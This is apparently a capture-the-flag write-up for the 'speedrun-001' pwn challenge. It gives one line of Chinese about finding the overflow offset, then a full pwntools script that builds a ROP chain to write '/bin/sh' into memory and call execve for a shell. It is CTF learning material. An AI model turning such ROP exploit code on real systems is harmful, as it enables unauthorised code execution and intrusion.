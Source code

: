 溢出点的话，直接 `cyclic 2000` 怼上去就有了。

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(
    os='linux',
    arch='amd64',
    log_level='debug',
    terminal='kitty',
    binary=ELF('./speedrun-001')
)

target = process()

recvline      = lambda : target.recvline()
recvuntil     = lambda str : target.recvuntil(str)
sendline      = lambda str : target.sendline(str)
sendlineafter = lambda str1, str2 : target.sendlineafter(str1.encode(), str2.encode())
interactive   = lambda : target.interactive()

rop = ROP(context.binary)

POP_RAX = rop.find_gadget(['pop rax', 'ret'])[0]
POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
POP_RSI = rop.find_gadget(['pop rsi', 'ret'])[0]
POP_RDX = rop.find_gadget(['pop rdx', 'ret'])[0]
SYSCALL = rop.find_gadget(['syscall'])[0]
BIN_SH = 0x68732f6e69622f

rop.raw(b'A' * 0x408)
rop.raw(POP_RAX)
rop.raw(0x6b6000)
rop.raw(POP_RDX)
rop.raw(BIN_SH)
# mov qword ptr [rax], rdx ; ret
rop.raw(0x48d251)
rop.raw(POP_RDI)
rop.raw(0x6b6000)
rop.raw(POP_RSI)
rop.raw(0x0)
rop.raw(POP_RDX)
rop.raw(0x0)
rop.raw(POP_RAX)
rop.raw(0x3b)
rop.raw(SYSCALL)

sendline(rop.chain())
interactive()
```
